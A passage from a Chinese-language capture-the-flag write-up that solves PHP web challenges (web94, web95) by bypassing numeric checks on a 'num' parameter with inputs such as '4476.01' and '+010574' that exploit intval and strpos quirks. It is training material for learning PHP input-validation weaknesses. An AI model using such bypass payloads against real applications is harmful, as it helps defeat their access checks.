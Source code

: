 这里ban了字母,使用不了16进制，可以使用8进制

```
?num=4476.1
```



### web94

```php
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
```

`strpos()`返回目标第一次出现的位置，所以不能让0出现在第一位置，但0也得出现，八进制不能使用

```python
?num=4476.01
```



### web95

```php
$num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
```

与上一题比较发现，`.`也被过滤了

> 文档：可以通过8进制绕过但是前面必须多加一个字节 ?num=+010574或者?num=%2b010574

```
?num=+010574
```
